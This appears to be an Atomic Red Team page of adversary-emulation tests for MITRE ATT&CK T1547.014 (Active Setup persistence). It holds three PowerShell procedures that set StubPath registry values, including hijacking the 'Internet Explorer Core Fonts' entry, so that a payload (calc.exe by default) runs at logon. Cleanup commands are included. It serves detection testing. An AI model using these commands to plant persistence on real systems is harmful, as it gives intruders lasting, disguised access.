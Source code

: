 ```yaml
---
tags: [T1547_014, atomic_test]
filename: "[[T1547.014|T1547.014 - Active Setup]]"
---
```


# T1547.014 - Active Setup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1547/014)
<blockquote>Adversaries may achieve persistence by adding a Registry key to the Active Setup of the local machine. Active Setup is a Windows mechanism that is used to execute programs when a user logs in. The value stored in the Registry key will be executed after a user logs into the computer.(Citation: Klein Active Setup 2010) These programs will be executed under the context of the user and will have the account's associated permissions level.

Adversaries may abuse Active Setup by creating a key under <code> HKLM\SOFTWARE\Microsoft\Active Setup\Installed Components\</code> and setting a malicious value for <code>StubPath</code>. This value will serve as the program that will be executed when a user logs into the computer.(Citation: Mandiant Glyer APT 2010)(Citation: Citizenlab Packrat 2015)(Citation: FireEye CFR Watering Hole 2012)(Citation: SECURELIST Bright Star 2015)(Citation: paloalto Tropic Trooper 2016)

Adversaries can abuse these components to execute malware, such as remote access tools, to maintain persistence through system reboots. Adversaries may also use [Masquerading](https://attack.mitre.org/techniques/T1036) to make the Registry entries look as if they are associated with legitimate programs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup](#atomic-test-1---hklm---add-atomic_test-key-to-launch-executable-as-part-of-user-setup)

- [Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry](#atomic-test-2---hklm---add-malicious-stubpath-value-to-existing-active-setup-entry)

- [Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number](#atomic-test-3---hklm---re-execute-internet-explorer-core-fonts-stubpath-payload-by-decreasing-version-number)


<br/>

## Atomic Test #1 - HKLM - Add atomic_test key to launch executable as part of user setup
This test will create an "atomic_test" key under 'HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components' to launch calc by configuring an active setup executable and 
forcing to run active setup using the "runonce.exe /AlternateShellStartup" command. 
Without the "runonce.exe /AlternateShellStartup" command it would run during the next logon for each user.

Note: If you logout before running the cleanup command, you will be required to go through the OOBE (out-of-box experience) setup sequence to log back in. 
The payload will only run once unless the cleanup command is run in between tests.

[Active Setup Explained](https://helgeklein.com/blog/active-setup-explained/)

**Supported Platforms:** Windows


**auto_generated_guid:** deff4586-0517-49c2-981d-bbea24d48d71





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components" -Name "atomic_test" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "(Default)" "ART TEST" -Force
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" "StubPath" "#{payload}" -Force 
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-Item "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
Remove-Item "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\atomic_test" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - HKLM - Add malicious StubPath value to existing Active Setup Entry
This test will add a StubPath entry to the Active Setup native registry key associated with 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) 
Said key doesn't have a StubPath value by default, by adding one it will launch calc by forcing to run active setup using runonce.exe /AlternateShellStartup. 
Without the last command it will normally run on next user logon. Note: this test will only run once successfully if no cleanup command is run in between test.

**Supported Platforms:** Windows


**auto_generated_guid:** 39e417dd-4fed-4d9c-ae3a-ba433b4d0e9a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| payload | Payload to run once during login | string | C:&#92;Windows&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" "StubPath" "#{payload}" -Force
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "StubPath" -Force
Remove-ItemProperty "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Force
```





<br/>
<br/>

## Atomic Test #3 - HKLM - re-execute 'Internet Explorer Core Fonts' StubPath payload by decreasing version number
This test will decrease the version number of the 'Internet Explorer Core Fonts' (UUID {C9E9A340-D1F1-11D0-821E-444553540600}) registry key for the current user, 
which will force the StubPath payload (if set) to execute.

**Supported Platforms:** Windows


**auto_generated_guid:** 04d55cef-f283-40ba-ae2a-316bc3b5e78c






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Active Setup\Installed Components\{C9E9A340-D1F1-11D0-821E-444553540600}" -Name "Version" -Value "0,0,0,0"
& $env:SYSTEMROOT\system32\runonce.exe /AlternateShellStartup
```






<br/>
